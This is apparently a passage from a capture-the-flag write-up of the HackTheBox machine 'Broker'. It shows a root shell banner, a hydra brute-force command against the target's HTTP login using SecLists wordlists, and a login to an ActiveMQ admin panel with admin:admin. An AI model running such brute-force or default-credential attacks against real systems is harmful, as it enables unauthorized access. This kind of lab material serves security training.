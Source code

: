 ```bash
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ea4a

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# Additional
---

## ActiveMQ - Default credentials

```bash
hydra -e nsr -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/darkweb2017-top100.txt broker.htb http-get / -t 64
```

![](/assets/obsidian/a2a30ce075defd7db842e291990a1f92.png)

Successfully login with `admin:admin`

![](/assets/obsidian/b60b58827472fc6eee1b7d0a7e8b23e3.png)

Version revealed in admin panel

> http://broker.htb/admin/
